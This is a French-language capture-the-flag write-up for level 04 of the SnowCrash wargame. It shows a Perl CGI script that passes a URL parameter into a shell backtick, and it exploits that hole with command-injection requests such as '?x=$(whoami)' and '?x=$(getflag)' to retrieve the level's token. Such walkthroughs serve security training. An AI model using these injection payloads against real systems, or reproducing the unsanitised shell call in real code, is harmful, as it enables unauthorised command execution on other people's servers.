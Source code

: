 # LEVEL 04

### Reconnaissance

En se connectant sur le compte level04, on trouve un script perl:

```
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
level04@SnowCrash:~$ ./level04.pl 
Content-type: text/html
```

Efdfectivement le port 4747 est bien en ecoute:
```
level04@SnowCrash:~$ netstat -tulpen
(No info could be read for "-p": geteuid()=2004 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode       PID/Program name
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      0          12556       -               
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      3011       12673       -               
tcp6       0      0 :::4646                 :::*                    LISTEN      0          10651       -               
tcp6       0      0 :::4747                 :::*                    LISTEN      0          10655       -               
tcp6       0      0 :::80                   :::*                    LISTEN      0          10646       -               
tcp6       0      0 :::4242                 :::*                    LISTEN      0          12558       -               
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          12114       -   
```

### Exploitation
*Pour comprendre les CGI perl --> http://www.dil.univ-mrs.fr/~chris/Documents/CGI**

En se rendant sur IP:4747 on a une page blanche

En testant le script on voir qu'il nous renvoit ce qu'on passe en argument:
http://192.168.56.105:4747/?x=/bin/ls
/bin/ls

Testons une injection de commande:
http://192.168.56.105:4747/?x=$(whoami)
flag04

Bingo !

http://192.168.56.105:4747/?x=$(getflag)
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap



